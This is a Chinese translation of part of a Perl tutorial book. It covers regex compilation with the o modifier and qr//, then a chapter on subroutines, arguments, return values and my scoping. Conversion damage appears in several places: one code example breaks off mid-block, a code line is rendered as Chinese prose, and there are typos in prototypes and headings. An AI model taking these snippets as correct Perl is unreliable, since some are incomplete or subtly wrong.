> Found Dick, Tom, and Harry.

## 编译正则表达式

"这些正则表达式很棒，"新手程序员说，"但有一个问题：当我在一个长循环中使用复杂的正则表达式时，我的程序似乎运行得非常慢。""嗯，"你说，"你是否已经尽可能优化过了，使用了不消耗内存的括号，并且尽可能避免了回溯？""是的，"新手程序员说。"那样的话，"你说，"也许你应该使用 **o 修饰符**。"

当你在正则表达式中使用变量时，Perl 每次遇到该正则表达式都会重新编译它，以防变量已经改变。如果你在循环中使用常量正则表达式，

```
while (<>) {
    if (!m/.{20,}/) {
        print "Please type longer lines!\n";
    } else {
        print "Let's have another!\n";
    }
}
```

> Here's some text.
Please type longer lines!
Here's some longer text.
Let's have another!
OK
Please type longer lines!

那么你不会有任何问题；Perl 只会编译一次你的正则表达式。然而，如果你在模式匹配中使用了变量，

```
$match = "Perl";

while (<>) {
    if (/$match/) {
        print "You typed Perl.\n";
    } else {
        print "You didn't type Perl.\n";
    }
}
```

那么 Perl 每次循环都会重新编译模式，因为变量中的值可能已经改变了。在这里这并非必要，因为 **$match** 中的值不会改变，所以为了优化这个模式匹配，你可以使用 **o** 修饰符：

```
$match = "Perl";

while (<>) {
    if (/$match/o) {
        print "You typed Perl.\n";
    } else {
        print "You didn't type Perl.\n";
    }
}
```

现在，Perl 将只编译一次该模式，之后不再重新编译（即使 **$match** 中的值确实改变了）；也就是说，编译一个模式会使其在使用期间保持静态不变。

## 使用 qr 创建已编译的正则表达式

从 Perl 5.005 开始，你可以使用 **qr//** 来创建和存储已编译的正则表达式。例如，如果你想要一个已编译模式的数组，你可以这样创建：

```
@patterns =
(
    qr/\bis\b/,
    qr/\bthe\b/,
    qr/\bbut\b/,
    qr/\ba\b/,
    qr/\bnone\b/,
);
```

现在，你可以这样使用这些预编译的正则表达式，我在这里遍历所有模式，看看在与用户输入的内容进行测试时哪个匹配成功：

```
@patterns =
(
    qr/\bis\b/,
    qr/\bthe\b/,
    qr/\bbut\b/,
    qr/\ba\b/,
    qr/\bnone\b/,
);

while (<>) {

    for ($loop_index = 0; $loop_index < $#patterns; $loop_index++) {

        if(/$patterns[$loop_index]/) {
            print "Matched pattern $loop_index!\n";
        }
        else {
            print "Didn't match pattern $loop_index.\n";
        }

    }
}
```

以下是当用户输入"Here is a test."时程序的运行结果：

```
%perl matchmaker
Here is a test.
Matched pattern 0!
Didn't match pattern 1.
Didn't match pattern 2.
Matched pattern 3!
```

> 提示：当你在对字符串进行下一次修改之前要对该字符串执行多次模式匹配时，可以使用 **study** 函数让 Perl "研究"并检查你传递给该函数的字符串，以便为该字符串上的模式匹配做好准备。字符串经过研究后，对其进行匹配应该会更快。如果你没有向 study 函数传递标量变量，它将研究 $_。

# 第 6 章 正则表达式

## # 第 7 章

## 子程序

| 如果你需要以下方面的即时解决方案： | 参见页码： |
|---|---|
| 声明子程序 | 282 |
| 使用子程序原型 | 285 |
| 定义子程序 | 286 |
| 调用子程序 | 288 |
| 调用前检查子程序是否存在 | 289 |
| 读取传递给子程序的参数 | 290 |
| 使用可变数量的参数 | 294 |
| 为参数设置默认值 | 295 |
| 从子程序（函数）返回值 | 296 |
| 通过返回 **undef** 表示失败 | 298 |
| 使用 **my** 设置作用域 | 299 |
| 要求词法作用域变量 | 302 |
| 使用 **local** 创建临时变量 | 302 |
| 确定 **my** 和 **local** 的区别 | 304 |
| 使用 **our** 设置作用域 | 306 |
| 创建持久（静态）变量 | 307 |
| 获取子程序名称和 **caller** | 308 |
| 递归调用子程序 | 310 |
| 嵌套子程序 | 311 |
| 按引用传递 | 312 |
| 按引用返回 | 313 |
| 传递符号表条目（类型球） | 314 |
| 使用 **wantarray** 检查所需的返回上下文 | 315 |
| 创建内联函数 | 316 |

*（续）*

| 如果你需要以下方面的即时解决方案： | 参见页码： |
|---|---|
| 模拟命名参数 | 316 |
| 覆盖内置子程序 | 317 |
| 创建匿名子程序 | 318 |
| 创建子程序分派表 | 319 |
| 重新定义子程序 | 320 |


## 深入探讨

本书前几章讲述了如何在 Perl 中组织数据，前几章讨论了代码相关问题，而本章将介绍更进一步的内容：组织你的代码。本章将涵盖在 Perl 中组织代码的基本方式：子程序。

## 编写子程序

子程序背后的理念是那句古老的编程箴言——分而治之。子程序允许你将代码划分为可管理的部分，使整体编程更易于处理。例如，假设你想在两个值大于 10 时打印它们，可以使用 **if** 块这样实现：

```
$value = 10;
if ($value > 10 ) {
    print "Value is $value.\n";
} else {
    print "Value is too small.\n";
}
$value = 12;
if ($value > 10 ) {
    print "Value is $value.\n";
} else {
    print "Value is too small.\n";
}
```

> Value is too small.
> Value is 12.

一个更好的方法是将重复的 **if** 块封装到一个子程序中以节省空间，就像这个例子，我创建了一个名为 **printfOK** 的子程序来检查 **$value** 的值（注意这里我所做的一切就是将 if 块中的代码放入 **printfOK** 中）：

```
sub printfOK
{
    if ($value > 10 ) {
        print "Value is $value.\n";
    } else {
        print "Value is too small.\n";
    }
}
```

现在，我可以在代码中这样使用子程序 **printfOK** 来检查这两个值：

```
$value = 10;
printfOK;

$value = 12;
printfOK;
```

> Value is too small.
> Value is 12.

我能在子程序 **printfOK** 内部引用变量 **$value**，是因为 Perl 变量默认具有全局包*作用域*。变量的作用域指的是程序代码中可以引用该变量的部分。

因为 **$value** 具有全局作用域，所以我可以在 **printfOK** 中引用它；然而，将代码划分为子程序的一个重要原因是限制作用域，使其形成整洁的区块，从而避免重叠的可能性。例如，如果我忘记了程序中已经有一个名为 **$value** 的变量，并在 **printfOK** 子程序中创建了一个同名变量，那么这个新变量将与已存在的同名变量相同——这是一个非预期的副作用，意味着当我在 **printfOK** 中更改 **$value** 时，我也会错误地更改程序其余部分中的该变量。

### 设置作用域

正如我们将在本章看到的，你可以使用关键字 **local** 和 **my** 创建完全局部于 **printfOK** 等子程序的变量。这种局部变量的作用域——即在代码中的可见区域——完全限制在子程序内，这意味着它们可以与全局变量同名，而完全不会影响那些全局变量。换句话说，**local** 和 **my** 关键字允许你在子程序中局部化变量。（事实上，这是许多编程语言中的默认行为，许多转到 Perl 的程序员惊讶地发现变量默认是全局的。）

我像这样使用 **my** 关键字，创建一个名为 **$localvalue** 的 **$value** 的局部副本：

```
sub printfOK
{
    my $localvalue = $value;

    if ($localvalue > 10 ) {
        print "Value is $value.\n";
    } else {
        print "Value is too small.\n";
    }
}

$value = 10;
printfOK;

$value = 12;
printfOK;
```

> *Value is too small.*
> *Value is 12.*

这个新变量 **$localvalue** 仅在子程序 **printfOK** 内可用。请注意，此代码仍然依赖于 **$value** 是全局的这一事实，因此在代码中的任何位置都可用。为了更彻底地封装，你可以像这样将变量直接*传递*给子程序，其中将要传递给子程序的值用括号括起来：

```
$value = 10;
printfOK ($value);
```

当你将值传递给子程序时，这些值被存储在一个名为 **@_** 的特殊 Perl 数组中，该数组在子程序内部可访问。这里，我使用 **shift** 函数从 **@_** 数组中获取传递给 **printfOK** 的值：

```
sub printfOK
{
    my $internalvalue = shift(@_);
    if ($internalvalue > 10 ) {
        print "Value is $value.\n";
    } else {
        print "Value is too small.\n";
    }
}
```

要使用这个子程序，你只需像这样将值传递给它，结果与之前相同：

```
$value = 10;
printfOK ($value);

$value = 12;
printfOK ($value);
```

> Value is too small.
> Value is 12.

## 返回值

除了接受传递的值，子程序也可以返回值，就像这个例子，我使用 **return** 函数从子程序中返回两个传递值的总和（注意子程序返回的值如何替换子程序本身的名称，并直接连接到 **print** 语句中的字符串中）：

```
sub addem
{
    ($value1, $value2) = @_;
    return $value1 + $value2;
}

print "2 + 2 = " . addem(2, 2) . "\n";
```

> 2 + 2 = 4

其他语言明确支持函数和子程序，在这些语言中，只有函数返回值。然而，在 Perl 中，子程序可以返回值，并且没有特定的函数类型；事实上，在 Perl 中*子程序*和*函数*这两个名称可以互换使用。

> **提示：** 当子程序的返回值很重要或被使用时，我通常会在本书中使用*函数*这个术语，因为许多程序员习惯于将这种子程序称为函数。

事实上，你经常会看到一个快捷方式；Perl 返回子程序中的最后一个值，因此你可以像这样省略 **return** 函数：

```
sub addem
{
    ($value1, $value2) = @_;
    $value1 + $value2;
}

print "2 + 2 = " . addem(2, 2) . "\n";
```

> 2 + 2 = 4

以上就是子程序工作的概述。它们允许你将代码分解成半自主的块，你向其传递数据，并读取传递回来的值。以这种方式分解代码使程序更容易编写和维护，并且通常更简短。现在，让我们来了解细节。

### 声明子程序

“那么，”这位受过 C++ 训练的编程规范大师说，“让我们看看如何在 Perl 中声明一个子程序。”“好吧，”你说，“如果你真的想的话。”“我只是想了解 Perl 的工作原理，”PCC 说，“从声明子程序开始。”“好的，”你说，“如果你真的想的话。”PCC 问：“你为什么一直这么说？”“因为，”你告诉 PCC，“与你可能习惯的不同，在 Perl 中你*不需要*声明子程序。”

你可以使用声明来告知 Perl 子程序的存在，包括你传递给它的参数类型以及它返回的值类型。声明函数与定义它不同。当你定义它时，你列出构成子程序主体的代码。

在 Perl 中，与其他语言不同，你*不需要*在使用子程序之前声明它们，除非你想在不使用括号包围其参数的情况下使用它们（例如，作为列表操作符），在这种情况下，你必须在使用之前声明或定义子程序。以下是在 Perl 中声明子程序的各种方式：

```
sub *SUBNAME*;
sub *SUBNAME*(*PROTOTYPE*);
sub *SUBNAME* BLOCK
sub *SUBROTINE*(*PROTOTYPE*) BLOCK
```

你可以在声明子程序时指定一个*原型*，该原型向 Perl 表示子程序接受的参数类型。一些程序员喜欢使用原型作为代码的检查。更多信息请参阅下一个主题。

你也可以从 Perl 包中导入子程序；更多详情请参阅第 17 章：

```
use *PACKAGENAME* qw(*SUBNAME1* *SUBNAME2* *SUBNAME3*);
```

你可以给你的子程序任何名称，但请注意，Perl 保留全大写的子程序名称用于隐式调用的子程序（由 Perl 本身调用），例如包中的 **BEGIN** 和 **END** 子程序。


# 第7章 子程序

与标量或数组一样，子程序也有前缀解引用器，不过使用它是可选的。子程序解引用器是 **&**，出现在每个子程序名开头的 **&** 字符是该名称的隐含部分，尽管你可以省略它。也就是说，如果你将子程序命名为 **count**，你可以调用它为 **count(1, 2)** 或 **&count(1, 2)**。本章将介绍更多关于使用子程序解引用器的细节；例如，请参阅"调用子程序"主题以了解使用或省略 **&** 的细微差别。

此示例展示了何时声明子程序会派上用场。假设我有一个名为 **adddem** 的函数，它将两个值相加并返回结果；我可以这样使用该函数：

```
$value = adddem(2, 2);

print "2 + 2 = $value\n";

sub adddem
{
    ($value1, $value2) = @_;
    $value1 + $value2;
}

2 + 2 = 4
```

然而，如果我不将参数列表放在括号中，Perl 会将 **adddem** 视为列表运算符，这意味着 Perl 需要更多信息才能使用它。由于我们还没有向 Perl 介绍 **adddem**，当我们初次使用它时，Perl 会在此用法上遇到问题：

```
$value = adddem 2, 2;

print "2 + 2 = $value\n";

sub adddem
{
    ($value1, $value2) = @_;
    $value1 + $value2;
}
```

事实上，当你尝试运行此代码时会发生以下情况：

```
%perl adddem.pl
Number found where operator expected at adddem.pl line 1, near "adddem 2"
    (Do you need to predeclare adddem?)
syntax error at adddem.pl line 1, near "adddem 2"
Execution of adddem.pl aborted due to compilation errors.
```

如果你想坚持使用不带括号的 **addem** 调用，有两种方法可以解决此问题。第一种方法是在使用 **addem** 之前声明它，如下所示；当你这样做时，代码可以正常运行：

```
sub addem;

$value = addem 2, 2;

print "2 + 2 = $value\n";

sub addem
{
    ($value1, $value2) = @_;
    $value1 + $value2;
}

2 + 2 = 4
```

另一种定义子程序 **addem** 的方法是在使用之前通过给出其代码来定义它，如下所示：

```
sub addem
{
    ($value1, $value2) = @_;
    $value1 + $value2;
}

$value = addem 2, 2;

print "2 + 2 = $value\n";

2 + 2 = 4
```

这就是结论。如果你想使用不带括号的子程序调用，请在使用之前声明或定义这些子程序。

| 相关解决方案： | 所在页： |
| --- | --- |
| 从模块中默认导出符号 | 741 |

### 使用子程序原型

> "好的，"编程正确性沙皇说，"那么你不一定需要在 Perl 中使用子程序之前声明它。但是，如果你确实声明了它，并且想告诉 Perl 你打算传递什么类型的参数以及多少个参数给子程序呢？""没问题，"你说，"你可以使用原型。""嗯，"PCC 安心地说，"这就像一门真正的编程语言。""嗯，"你说。

一些程序员喜欢使用原型作为检查手段，以确保子程序调用正确执行——例如，确保在需要数组的地方不会传递标量。要声明原型，你需要按顺序列出参数必须以哪些字符开头：$ 代表标量，@ 代表数组，依此类推，如表 7.1 中的示例所示。

请注意，如果在原型中使用 @ 或 %，该参数会*吸收*后续的参数，因为 Perl 将传递的参数视为列表中的元素。我可能会这样声明一个接受两个标量和一个数组的子程序：

```
sub SUBNAME($$@)
```

上述代码表明你可以用两个标量后跟一个列表来调用此子程序；如果你用其他参数调用，Perl 将生成错误。你可能会这样调用此子程序：

```
SUBNAME $scalar1, $scalar2, $arrayargument1, $arrayargument2,
$arrayargument3;
```

#### 表 7.1 原型。

| 声明 | 这样调用 |
| --- | --- |
| sub SUBNAME($) | SUBNAME $argument1; |
| sub SUBNAME($$) | SUBNAME $argument1, $argument2; |
| sub SUBNAME($$;$) | SUBNAME $argument1, $argument2, $optionalargument; |
| sub SUBNAME(@) | SUBNAME $arrayargument1, $arrayargument2, $arrayargument3; |
| sub SUBNAME($@) | SUBNAME $argument1, $arrayargument1, $arrayargument2; |
| sub SUBNAME(\@) | SUBNAME @argument1; |
| sub SUBNAME(\%) | SUBNAME %{$hashreference}; |
| sub SUBNAME(&:]) | SUBNAME anonymoussubroutine; |
| sub SUBNAME(*) | SUBNAME *argument1; |
| sub SUBNAME() | SUBNAME; |

如果你想确保参数确实以 @ 或 % 开头，请用反斜杠转义这些字符，如下所示：

```
SUBNAME(\@)
```

现在，你可以用一个数组来调用子程序：

```
SUBNAME @array;
```

你也可以指定*可选*参数。你使用分号将必需参数与可选参数分隔开，如表 7.1 所示。（有关子程序和可选参数的更多信息，请参阅本章后面的"使用可变数量的参数"主题。）

当你在原型中使参数变为可选时，如这里的第三个参数，如果缺少它，Perl 不会报错：

```
sub SUBNAME($$;$)
```

你可以这样调用此子程序：

```
SUBNAME $argument1, $argument2;
SUBNAME $argument1, $argument2, $optionalargument;
```

还请注意，如果你用空括号声明子程序，则该子程序不接受任何参数，如果你尝试传递任何参数，Perl 将生成错误。

> **提示：** 原型*仅*在你不在子程序名前加 **&** 字符时才会影响对函数调用的解释。

### 定义子程序

"现在，我已经看到在 Perl 中你不需要声明或原型化子程序，"编程正确性沙皇说。"那么你*需要*做什么？"PCC 问道。"你真正需要做的，"你说，"就是通过给出子程序的代码来*定义*它。"

你在子程序的定义中列出实际代码，并使用 **sub** 关键字定义子程序，如下所示：

```
sub *SUBNAME* *BLOCK*
sub *SUBNAME*(*PROTOTYPE*) *BLOCK*
```

这里，**BLOCK** 包含子程序的实际代码，**PROTOTYPE** 是子程序的原型。

例如，我定义子程序 **printhello**，它简单地打印"Hello!"，如下所示；请注意，子程序的代码包含在代码块中，在 Perl 中这意味着必须用 { 和 } 定界：

```
sub printhello
{
    print "Hello!";
}
```

我可以这样调用此子程序：

```
sub printhello
{
    print "Hello!";
}

printhello;
```

*Hello!*

如果你要在不带括号的情况下调用子程序，必须先声明或定义它。（请参阅本章前面的"声明子程序"主题。）例如，以下方法将不起作用：

```
printhello;

sub printhello
{
    print "Hello!";
}
```

要解决此问题，你可以在使用 **printhello** 之前定义它、在使用之前声明它，或者如这里添加括号（**printhello** 不接受任何参数，所以我没有在括号中放任何内容）：

```
printhello();

sub printhello
{
    print "Hello!";
}
```

*Hello!*

### 调用子程序

在电话中，你听到有人说："救命！"一定是新手程序员。"你好，NP，"你说，"出了什么问题？""嗯，"NP 说，"我定义了一个新的子程序，现在我想调用它。我该怎么做？""最好过来一下，"你说，"你可以用多种方式调用它。""马上过来，"NP 说。

定义子程序后，你可以使用以下方式正式调用它并传入你想要的参数（请注意，我使用了子程序前缀解引用器 &）：

```
&SUBNAME(ARGUMENTLIST);
```

因为这是 Perl，你可以用不止一种方式调用它。如果使用括号，& 是可选的：

```
SUBNAME(ARGUMENTLIST);
```

事实上，如果子程序已经被预声明、从包中导入，或在使用之前已在代码中定义，你可以省略括号：

```
SUBNAME ARGUMENTLIST;
```

事实上，你还可以使用其他方式。你可以将子程序名称存储在标量中，然后像这样调用它 &$SCALAR：

```
$SCALAR = SUBNAME;
&$SCALAR(ARGUMENTLIST);
```

前面的示例是使用软引用的一种形式；我们将在第9章中更多地了解这种引用。

在此示例中，我定义了一个名为 addem 的函数，并使用一些不同的可能方式用两个参数调用它：

```
sub addem
{
    ($value1, $value2) = @_;
    $value1 + $value2;
}

$value = &addem(2, 2);
$value = addem(2, 2);
$value = addem 2, 2;
```

## 第七章 子程序

```perl
$name = "addem";
$value = &$name(2, 2);
```

```perl
print "2 + 2 = $value\n";
```

```
2 + 2 = 4
```

当你调用一个子程序时，传递给它的参数会被放入一个名为 `@_` 的数组中。事实上，如果你使用 `&` 来调用子程序并省略参数列表（例如，`&SUBNAME`），那么当前版本的 `@_` 将被传递给被调用的子程序。如果你从一个子程序中调用另一个子程序，并想传递最初传递给调用子程序的参数，这种方法非常有用。看看这种调用子程序的方式：

```perl
sub addem
{
    ($value1, $value2) = @_;
    $value1 + $value2;
}
```

```perl
@_ = (2, 2);
$value = &addem;
```

```perl
print "2 + 2 = $value\n";
```

```
2 + 2 = 4
```

> *提示：* 使用 `&` 形式调用子程序也会禁用你提供的任何参数的原型检查。

请注意，传递给子程序的参数会被合并成一个扁平的列表，所以如果你传递两个数组或哈希表，这些数组或哈希表中的元素最终会出现在一个列表中。要传递数组或哈希表并保持其完整性，请通过引用传递它们。（参见本章后面的主题“按引用传递”和“按引用返回”。）

### 在调用子程序前检查其是否存在

技术支持部门打来电话。“你为其他人编写的应用程序代码有问题。它调用了一个名为 **default** 的子程序，但该子程序不存在。” “**default** 子程序 *应该* 存在，”你说。“程序员在使用我的代码之前应该将其添加到他们的应用程序中。” “这不够好，”技术支持说，“当你编写可重用代码时，必须在调用这样的子程序之前检查它是否存在。” 嗯，你想，“这是怎么做到的呢？”

在调用子程序之前，你可以使用内置的 Perl **defined** 函数来检查它是否确实已定义，如下所示：

```perl
sub addem
{
    ($value1, $value2) = @_;
    $value1 + $value2;
}

@_ = (2, 2);
$value = &addem if defined addem;

print "2 + 2 = $value\n";

2 + 2 = 4
```

从 Perl v5.6.0 开始，你也可以使用 **exists** 来检查子程序是否已定义：

```perl
sub addem
{
    ($value1, $value2) = @_;
    $value1 + $value2;
}

@_ = (2, 2);
$value = &addem if exists &addem;

print "2 + 2 = $value\n";

2 + 2 = 4
```

在调用子程序前像这样检查其是否已定义，如果你编写的代码会被其他人复制到他们自己的应用程序中，这尤其有用。

### 读取传递给子程序的参数

新手程序员出现在你家门口。“有个问题，”新手说。“什么问题？”你问。“我已经声明了我的新子程序，甚至定义了它。” “那很好，”你说。“但是，”新手哀叹道，“我想不出传递参数给它的方法。你能帮忙吗？” 你安慰地笑了笑，“没问题，”你说，“拉把椅子坐下吧。”

你可以在子程序的代码中使用特殊数组 **`@_`** 来读取传递给子程序的参数。这个数组专门用于存放传递给子程序的参数。例如，如果你传递两个参数给子程序，该子程序中的代码可以像 **`$_[0]`** 和 **`$_[1]`** 这样检索这些参数。

考虑这个例子：你想将两个数字相加并使用一个名为 **addem** 的子程序打印结果，你可以这样使用它：**addem(2, 2)**。你这样开始：

```perl
sub addem
{

}
```

到目前为止还不错，但你如何获取传递给这个子程序的值以便在代码中使用呢？你可以通过直接按索引引用该数组的元素，从 **`@_`** 数组中获取传递给 **addem** 的值：

```perl
sub addem
{
    $value1 = $_[0];
    $value2 = $_[1];
}
```

现在，你可以在代码中使用这些新值：

```perl
sub addem
{
    $value1 = $_[0];
    $value2 = $_[1];
    print "$value1 + $value2 = " . ($value1 + $value2) . "\n";
}
```

你可以这样调用子程序：

```perl
addem(2, 2);

2 + 2 = 4
```

你能找到多少种从 **`@_`** 获取值的方法，就能找到多少种使用数组的方法。例如，你可以使用 **shift** 函数像这样从 **`@_`** 中检索值：

```perl
sub addem
{
    $value1 = shift @_;
    $value2 = shift @_;
    print "$value1 + $value2 = " . ($value1 + $value2) . "\n";
}
```

在子程序中，**shift** 默认使用 `@_`，所以你可以像这样重写这段代码：

```perl
sub addem
{
    $value1 = shift;
    $value2 = shift;
    print "$value1 + $value2 = " . ($value1 + $value2) . "\n";
}
```

你也可以像这样使用列表赋值一次性获取 `@_` 中的所有值（这种技术非常流行）：

```perl
sub addem
{
    ($value1, $value2) = @_;
    print "$value1 + $value2 = " . ($value1 + $value2) . "\n";
}
```

让我补充一个重要的一点：当你将标量传递给子程序时，它们是通过引用传递的，这意味着传递的是对标量的引用。（对标量的引用就像标量在内存中存储的地址。有关引用的所有详细信息，请参阅第9章。）因此，当你修改一个传递的值时，你也在原始传递它的代码中修改了它。

在这个例子中，我递增传递给名为 **addone** 的子程序的值（注意，我传递的值 **$value** 在子程序返回时本身也被递增了）：

```perl
sub addone
{
    ++@_[0];
}

$value = 1;

addone($value);

print "The value of \$value = $value.\n";
```

> The value of $value = 2.

> **注意：** 行 *++@_[0];* 是为什么非程序员认为 Perl 晦涩难懂的一个巧妙例子。试着把这一行给你祖母看，并解释你以此为生。

你也可以像这样传递一个数组给子程序，其中我递增数组的每个元素并返回递增后的数组（有关返回值的更多详细信息，请参见本章后面的主题“从子程序（函数）返回值”）：

```perl
sub addone
{
    foreach (@_) {
        $_++;
    }
    return @_;
}
```

```perl
@a = (1, 2, 3);
@b = addone(@a);
```

```perl
print "@b";
```

```
2 3 4
```

你也可以以同样的方式传递一个哈希表，但你应该理解幕后发生了什么。当你传递一个数组或哈希表时，它会被复制到 `@_` 中，这对单个数组来说没问题，但哈希表会被扁平化为一个键/值对的单一列表。然而，如果你在子程序中将 `@_` 赋值给一个哈希表，那也能正常工作，因为这是初始化哈希表的一种方式——通过向其赋值一个键/值对的列表。在下一个例子中，我将一个哈希表传递给一个子程序 **printem**，它将打印哈希表的所有元素：

```perl
$hash{fruit} = peach;
$hash{vegetable} = broccoli;
$hash{pie} = blueberry;
```

```perl
sub printem
{
    %hash = @_;

    foreach $key (keys %hash) {
        print "$key => $hash{$key}\n";
    }
}
```

```perl
printem(%hash);
```

```
- fruit => peach
- pie => blueberry
- vegetable => broccoli
```

让我在这里再补充一个重要注意事项：因为传递给子程序的参数被合并成一个扁平的列表，如果你传递两个或更多数组或哈希表，这些数组或哈希表中的元素最终会出现在 `@_` 中的一个长列表中。要传递数组或哈希表并保持它们各自的完整性，你应该通过引用传递它们。（参见本章后面的主题“按引用传递”和“按引用返回”。）

> **提示：** 如果你喜欢术语，Perl 使用 `@_` 传递可变数量的参数，这基于可变参数函数的概念，不像 C 这样的强类型语言。

### 使用可变数量的参数

“我们必须削减成本，”大老板一边说着，一边咀嚼着昂贵的雪茄。“我们必须减少代码中子程序的数量。” “嗯，”你说。“比如这两个，”大老板说，“**drawsquare** 和 **drawcircle**。你不能把它们合并成一个子程序吗？” “这个嘛，”你说，“一个需要四个参数，另一个只需要三个。” “很好，”大老板说，“我就当搞定了。” “好吧，”你心想，“那么我能在 Perl 的一个子程序中支持可变数量的参数吗？”

Perl 使得向子程序传递可变数量的参数变得容易，因为参数是在 `@_` 数组中传递的。要确定传递了多少个参数，你只需要检查该数组的长度，`$#_`。（回想一下，`$#_` 是 `@_` 中最后一个元素的索引值，所以将 `$#_` 加一就得到基于零的数组 `@_` 中的总元素数。）

要处理 `@_` 数组中的所有元素，你可以使用一个 **foreach** 循环，它会遍历传递的参数，无论你有多少个。

这个示例子程序 **addem** 使用了这两种技术——使用 `$#_` 来确定参数数量，并使用 **foreach** 循环来遍历所有参数。这个子程序将你传递给它的所有值相加：

```perl
sub addem
{
    $sum = 0;

    print "You passed " . ($#_ + 1) . " elements.\n";
```


## 为参数设置默认值

"好的，"初级程序员说，"现在我知道如何创建一个子程序来接受可选参数了。但实际上，这些参数确实需要值，即使它们没有被传递。我能给那些未传递的参数设置*默认值*吗？""当然可以，"你说，"这很简单。"

由于用户可以传递可变数量的参数，你可能想为用户可能省略的参数提供默认值，你可以使用 **||=** 操作符来实现：

```perl
sub addem
{
    ($value1, $value2) = @_;
    $value2 ||= 1;
    print "$value1 + $value2 = " . ($value1 + $value2);
}
```

在这个例子中，我们为变量 **$value2** 提供了默认值 1，以防列表赋值后该变量为零。当我传递值 2 时，得到这个结果：

```perl
addem(2);

2 + 1 = 3
```

请注意，此技巧假设用户不会传递值 0 或空字符串。更好的方法是使用 **defined** 函数：

```perl
sub addem
{
    ($value1, $value2) = @_;
    if (!defined($value2)) {
        $value2 = 1;
    }
    print "$value1 + $value2 = " . ($value1 + $value2);
}

addem(2);

2 + 1 = 3
```

在某些情况下——例如，当可选参数出现在参数列表末尾时——你可以显式地检查 `@_` 的元素数量，即 `$#_ + 1`，来确定用户传递了多少个参数：

```perl
sub addem
{
    $value1 = shift @_;
    if ($#_ > 0) {
        $value2 = $_[1];
    } else {
        $value2 = 1;
    }
    print "$value1 + $value2 = " . ($value1 + $value2);
}
addem(2);

2 + 1 = 3
```

## 从子程序（函数）返回值

> "你的新子程序非常棒，"技术支持人员说。"它接受传递给它的参数，没问题。""那么，"你问，"有什么问题呢？""它似乎不返回任何东西，"技术支持说，"你能让它做点什么吗？""哦，"你说。

子程序的返回值是最后计算的表达式的值，或者你可以显式地使用 **return** 语句来退出子程序，并指定返回值。（在一些语言中，函数返回值而子程序不返回，但在 Perl 中这些名称含义相同。）该返回值根据子程序调用的上下文（列表、标量或无值）在相应的上下文中计算。

例如，我以这种方式将传递给子程序的值相加并返回总和：

```perl
sub addem
{
    ($value1, $value2) = @_;
    return $value1 + $value2;
}

print "2 + 2 = " . addem(2, 2) . "\n";
```

2 + 2 = 4

你也可以像这样返回一个列表：

```perl
sub getvalues
{
    return 1, 2, 3, 4, 5, 6;
}
```

这种列表返回值可以用于数组赋值，如下所示：

```perl
@array = getvalues;
print join(", ", @array);
```

1, 2, 3, 4, 5, 6

下一个例子接收一个数组并返回一个数组：

```perl
sub addone
{
    foreach (@_) {
        $_++;
    }
    return @_;
}

@a = (1, 2, 3);
@b = addone(@a);

print "@b";
```

2 3 4

你也可以返回一个哈希。请注意，哈希会被展平为键/值对的列表，因此当你将返回的列表赋给一个新的哈希时，该新哈希会填充这些键/值对，就像任何列表赋值一样：

```perl
sub gethash ()
{
    $hash{fruit} = peach;
    $hash{vegetable} = broccoli;
    $hash{pie} = blueberry;

    return %hash;
}

%myhash = gethash;

foreach $key (keys %myhash) {
    print "$key => $myhash{$key}\n";
}

fruit => peach
pie => blueberry
vegetable => broccoli
```

你可以使用 **wantarray** 函数来检查期望的返回值类型——标量还是列表。详见本章后面的“使用 **wantarray** 检查所需的返回上下文”主题。

但是请注意，如果你返回多个数组或哈希，它们会被展平成一个大的列表。这意味着你只能赋值给一个数组；像这样的赋值将无法工作：

```perl
(@array1, @array2) = getvalues;
```

在这种情况下，函数 **getvalues** 返回的所有值都将被放入 **@array1** 中。要处理这个问题，请参见本章后面的“通过引用返回”主题。

> *提示：从 Perl v5.6.0 开始，子程序可以返回可修改的左值。*

## 通过返回 undef 来指示失败

许多内置的 Perl 函数返回 **undef** 值来表示失败。那么你如何做到这一点呢？你可以只使用 **return** 语句本身，而不给它任何参数。

考虑这个例子：我正在编写一个名为 **getdata** 的函数，用于从文件中读取数据。但是，如果从文件读取数据时出现问题，**getdata** 将返回 **undef**。请注意，我使用 Perl 的 **eval** 函数来捕获错误，这样错误就不会对程序造成致命影响，并通过检查 **$@** 的值来检查是否发生错误，**eval** 将任何错误放在那里：

```perl
sub getdata()
{
    eval {
        open FILEHANDLE, "<nonexist.dat";
        $line = <FILEHANDLE> if FILEHANDLE;
    };

    if ($@) {
        return;
    } else {
        return $line;
    }
}
```

在前面的代码中，我要求 **getdata** 打开一个不存在的文件 nonexist.dat。因此，当你使用 **getdata** 时，会得到这个结果：

```perl
$data = getdata();

if (defined ($data)) {
    print $data;
} else {
    print "Sorry, getdata failed!\n";
}

Sorry, getdata failed!
```

## 使用 my 设置作用域

默认情况下，Perl 中的变量是全局的，这意味着你可以在程序中的任何地方访问它们。（实际上，它们在当前包中是全局的。有关包的更多详细信息，请参见第 17 章。）这意味着即使你在子程序内部声明的变量也是全局的，你可以在该子程序调用返回后访问它们，就像在这个例子中一样，我从子程序外部显示名为 **$inner** 的子程序变量的值（第二个 **Hello!** 来自直接打印 **$inner** 的值）：

```perl
sub printem
{
    $inner = shift @_;
    print $inner;
}

printem "Hello!\n";

print $inner;
```

*Hello!*
*Hello!*

如果故事到此结束，Perl 会因为全局变量充斥你的程序而迅速变得难以管理。但是，你可以通过设置变量的*作用域*将其限制在子程序内。变量的作用域是其*在代码中的可见性*。

使用关键字 **my** 可以将变量限制在包含它的块、条件、循环、子程序、**eval** 语句或使用 **do**、**require** 或 **use** 包含的文件中。使用 **my** 声明的变量是*词法*作用域的，而使用 **local** 声明的变量是*动态*作用域的。主要区别在于动态作用域的变量在从变量作用域内调用的子程序中也是可见的，而词法作用域的变量则不是。（实际上，这是一个简化的描述；有关此过程如何工作的完整详细信息，请参见“确定 **my** 和 **local** 之间的区别”主题。）在本书中，我将始终引用词法作用域——即那些使用 **my** 声明的变量。

在使用子程序时，关键点在于你使用 **my** 声明的变量完全局限于该子程序。这有助于将代码和数据分解成模块化单元。

要声明一个标量并限制其作用域，你只需使用 **my $scalar**。如果你用 **my** 列出多个元素，列表必须出现在括号中。你使用 **my** 的所有元素必须是合法的左值。

> **提示：**只有字母数字标识符可以具有词法作用域；特殊内置元素如 *$_* 必须使用 **local** 进行动态声明。

在这个例子中，我通过使用 **my** 声明变量，将名为 **$inner** 的变量限制在其子程序内。一旦这样声明，该变量就无法从子程序外部访问（**print $inner** 语句打印一个空字符串）：

```perl
sub printem
{
    my $inner = shift @_;
```


打印 $inner。
}

```
printem "Hello!\n";

print $inner;
```

